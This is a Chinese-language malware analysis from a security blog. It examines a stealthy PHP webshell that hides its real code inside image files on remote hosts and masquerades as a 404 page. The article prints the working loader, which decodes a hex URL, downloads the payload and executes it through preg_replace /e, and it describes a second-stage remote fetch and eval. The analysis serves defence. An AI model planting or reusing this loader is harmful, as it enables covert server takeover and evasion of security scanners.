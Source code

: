 # PHP 后门新玩法：一款猥琐的 PHP 后门分析

2014/03/19 16:46 | [360 网站安全中心](http://drops.wooyun.org/author/360 网站安全中心 "由 360 网站安全中心 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 背景

* * *

近日，360 网站卫士安全团队近期捕获一个基于 PHP 实现的 webshell 样本，其巧妙的代码动态生成方式，猥琐的自身页面伪装手法，让我们在分析这个样本的过程中感受到相当多的乐趣。接下来就让我们一同共赏这个奇葩的 Webshell 吧。

## 0x01 细节

* * *

Webshell 代码如下：

```
<?php
error_reporting(0);
session_start();
header("Content-type:text/html;charset=utf-8");if(empty($_SESSION['api']))
$_SESSION['api']=substr(file_get_contents(
sprintf('%s?%s',pack("H*",
'687474703a2f2f377368656c6c2e676f6f676c65636f64652e636f6d2f73766e2f6d616b652e6a7067′),uniqid())),3649);
@preg_replace("~(.*)~ies",gzuncompress($_SESSION['api']),null);
?>

```

关键看下面这句代码，

```
sprintf('%s?%s',pack("H*",'687474703a2f2f377368656c6c2e676f6f676c65636f64652e636f6d2f73766e2f6d616b652e6a7067′),uniqid())

```

这里执行之后其实是一张图片，解密出来的图片地址如下：

```
http://7shell.googlecode.com/svn/make.jpg?53280b00f1e85 
```

然后调用 file_get_contents 函数读取图片为字符串，然后 substr 取 3649 字节之后的内容，再调用 gzuncompress 解压，得到真正的代码。最后调用 preg_replace 的修饰符 e 来执行恶意代码的。这里执行以下语句来还原出恶意样本代码，

```
<?php
echo gzuncompress(substr(file_get_contents(sprintf('%s?%s',pack("H*",
'687474703a2f2f377368656c6c2e676f6f676c65636f64652e636f6d2f73766e2f6d616b652e6a7067′),uniqid())),3649));
?>

```

如图所示：

![enter image description here](img/img1_u152_jpg.jpg)

分析这段代码，发现这是一个伪装的 404 木马(这里实在是太猥琐了…把页面标题改成 404 Not Found)，其实整个 webshell 就一个 class 外加三个 function，如下图：

![enter image description here](img/img2_u124_jpg.jpg)

首先我先看一下它的前端 html 代码，其中有这么一段 js 程序

```
document.onkeydown = function(e) {
var theEvent = window.event || e;
var code = theEvent.keyCode || theEvent.which;
if (80 == code) {
$("login").style.display = "block"
}
}

```

这里它用 document.onkeydown 获取用户敲击键盘事件，当 code 等于 80 的时候显示 login 这个 div，这里查询了一下 keyCode 的对照表，查到 80 对应 p 和 P 键

![enter image description here](img/img3_u111_jpg.jpg)

所以触发 webshell 登陆需要按 p 键(不按 P 键页面就是一个空白页，看不到登陆框)，如图所示：

![enter image description here](img/img4_u90_jpg.jpg)

再回到服务端 php 代码中，可以看到程序用的是对称加密，并且将登陆密码作为加密 key，代码如图所示：

![enter image description here](img/img5_u76_jpg.jpg)

再看 init()的逻辑

![enter image description here](img/img6_u70_jpg.jpg)

如图所示，先看这句代码

```
$true = @gzuncompress(gzuncompress(Crypt::decrypt(pack('H*', '789c63ac0bbec7b494f12cdb02f6dfac3f833731cf093e163a892990793ebf0a9f1c6b18bb68983b3b47a022002a840c59′), $_POST['key'], true)));

```

根据这个解密逻辑我们可以推出，这里其实是将字符串 true 做了以下加密处理，

```
unpack('H*',Crypt::encrypt(gzcompress(gzcompress('true')), $_POST['key'] , true))

```

所以当输入正确密码的时候@gzuncompress 返回字符串 true，然后程序调用 setcookie 给客户端返回$_COOKIE['key']，然后值得提一下的是后面这个`exit('{"status":"on"}')`，这里它与前端代码联系很紧密，我们看前端有个 callback 函数，如下

```
function callback() {
var json = eval("(" + this.responseText + ")");
if (json.status=='on'){
window.location.reload();
return;
}
if (json.notice) {
$("notice").style.display = "block";
$("notice").innerHTML = json.notice;
sideOut();
}
}

```

这里执行`exit('{"status":"on"}')`会返回 json 串`{"status":"on"}`，此时前端 js 代码 classback()获取到此响应会执行 window.location.reload()刷新，再次请求正好带上前面获取的 cookie，然后执行判断 COOKIE 的逻辑，如图所示：

![enter image description here](img/img7_u52_jpg.jpg)

这里跟前面 POST 的逻辑一样，下面当判断为'true'以后，这里又请求了一张图片，pack 出来地址为`http://2012heike.googlecode.com/svn/trunk/code.jpg`，然后调用 _REQUEST 获取图片内容，解密解压之后再 eval，分析之后发现 code.jpg 中才是真正的 webshell 经过加密压缩之后的内容。这里我跟踪了一下代码打印出了真正执行的 webshell 的内容：

![enter image description here](img/img8_u33_jpg.jpg)

登陆成功之后的 webshell 如下图：

![enter image description here](img/img9_u36_jpg.jpg)

## 0x02 总结

* * *

这是一个高度隐蔽的 webshell，它没有在其代码中用到一些危险函数和敏感字，而是将真正的 shell 内容经过层层加密处理之后保存到图片当中，丢到服务器上只留下一个 url，并且 url 还是经过加密处理的，所以对外看没有任何特征可寻，过掉了大多数 waf 以及杀软的查杀。。作者的利用思路新颖，并且前端后端结合紧密，代码精简，各种奇技淫巧，有别于常见的 webshell 后门，令人佩服！

from:[`blog.wangzhan.360.cn/?p=65`](http://blog.wangzhan.360.cn/?p=65)

版权声明：未经授权禁止转载 [360 网站安全中心](http://drops.wooyun.org/author/360 网站安全中心 "由 360 网站安全中心 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [Json hijacking/Json 劫持漏洞](http://drops.wooyun.org/papers/42)
*   [WordPress 3.5.1 远程代码执行 EXP](http://drops.wooyun.org/papers/785)
*   [一个可大规模悄无声息窃取淘宝/支付宝账号与密码的漏洞 -（埋雷式攻击附带视频演示）](http://drops.wooyun.org/papers/1426)
*   [DedeCMS 最新通杀注入(buy_action.php)漏洞分析](http://drops.wooyun.org/papers/979)
*   [Duo Security 研究人员对 PayPal 双重验证的绕过](http://drops.wooyun.org/papers/2502)
*   [OAuth 安全指南](http://drops.wooyun.org/papers/1989)